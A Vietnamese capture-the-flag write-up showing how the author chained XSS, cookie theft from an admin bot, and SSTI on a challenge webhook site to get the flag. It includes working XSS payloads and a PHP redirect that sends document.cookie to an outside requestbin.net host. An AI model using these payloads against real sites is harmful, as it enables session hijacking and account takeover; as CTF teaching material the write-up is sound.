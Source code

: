 Đến đây thì nhớ về lúc đầu ở `/pro` khi account pro thì có thể tạo template và số webhook được tạo không giới hạn.

IDEA: `xss` (lấy cookie của admin để lên pro) -> `SSTI` (tạo template mới) -> RCE và lấy flag.
- Đầu tiên là cần đi tìm chỗ có thể trigger được xss. Chú ý ở chỗ change template thì thấy ở template 3 và 5 đều có tham số `url` mình có thể control
- `url` được truyền vô src của thẻ `img` => có thể escape để xss
- Nhưng ở template 3 thì có dấu `"` nên chúng ta cần escape `"` để có thể thêm `onerror=alert(1)`. Đời không như là mơ thì chương trình đã sử dụng htmlencode => không thể escape dấu "`"
- Payload mình sử dụng cho template 3 -> `?url=a" onerror="alert(1)` => kết quả ![image](https://user-images.githubusercontent.com/54855855/138673740-12277857-a74c-40cb-8e61-f41633e36751.png)
- Nhìn kĩ thì ở template 5 cũng truyền `url` nhưng ở thẻ `img` không có `"` => không cần escape dấu `"` => không bị ảnh hưởng bởi htmlencode ![image](https://user-images.githubusercontent.com/54855855/138675481-82b0f4f6-e45d-4fbc-895d-bc8799e9bbec.png)
- Payload cho template 5 `?url=a onerror=alert(1)` => kết quả
![image](https://user-images.githubusercontent.com/54855855/138675690-d69c888d-5540-4989-a491-68d305fdabc7.png)

Vậy bây giờ chỉ cần lấy cookie của bot trả về là sẽ lên account pro, nhưng đến đoạn gửi url cho bot thì lại bị một số vẫn đề:
- url của mình gửi cho bot không được dài quá 128 char.
- Payload mình gửi ở `/report` -> 
```
https://rozhook.xyz/h/5a2e760c42c8c7bfcc2be2dd56ba038004ce66da?url=a onerror=document.location="http://requestbin.net/r/gx9eqwnc?cc="%2bdocument.cookie
```
- Chương trình thông báo: ![image](https://user-images.githubusercontent.com/54855855/138676916-e5d259f5-34fe-47d2-972d-1e05bf764ea1.png)
- Ở đây mình sẽ bypass chỗ này bằng cách `redirect`.
- File `index.php` mình host:
```php
<?php
header('Location: https://rozhook.xyz/h/5a2e760c42c8c7bfcc2be2dd56ba038004ce66da?url=a onerror=document.location="https://requestbin.net/r/gx9eqwnc?cc="%2bdocument.cookie');
```
- Chạy `php -S 0.0.0.0:1234` trên server
- Send `http://ip:1234/index.php` cho Url ở `/report`
![image](https://user-images.githubusercontent.com/54855855/138680668-f1273f8e-99e0-480d-a07a-67f553ef45a9.png)
- Thay cookie mà bot gửi về cho chúng ta => acccount đã lên pro

Nhưng sau khi lên pro thì mình cũng không thể click vào `Create Template`. Stuck ở đây khá lâu và đi check các file JS thì thấy được có 1 api được giấu ở file `https://rozhook.xyz/static/js/main.js` ![image](https://user-images.githubusercontent.com/54855855/138681638-e0aeb5a8-3d30-46de-9cbd-974c719684cf.png)

Truy cập api trên và tạo template mới có thể rce (SSTI):
- Payload tạo template mới ![image](https://user-images.githubusercontent.com/54855855/138683096-9161a2d6-c7e1-4145-a72e-d047e12f047e.png)
- Qua bên webhook của mình thì thấy đã có thêm 1 template được add vô ![image](https://user-images.githubusercontent.com/54855855/138683199-2aa4dc82-7a4f-4d2e-9b6f-55dac82b25c9.png)
- Tuy cập nó và có flag

### Summary Payload
Get cookie để lên tài khoản pro
```php
<?php
header('Location: https://rozhook.xyz/h/5a2e760c42c8c7bfcc2be2dd56ba038004ce66da?url=a onerror=document.location="https://requestbin.net/r/gx9eqwnc?cc="%2bdocument.cookie');
```
Add template to SSTI (get flag)
```
POST /api/v0.5/template/add HTTP/1.1
Host: rozhook.xyz
...
```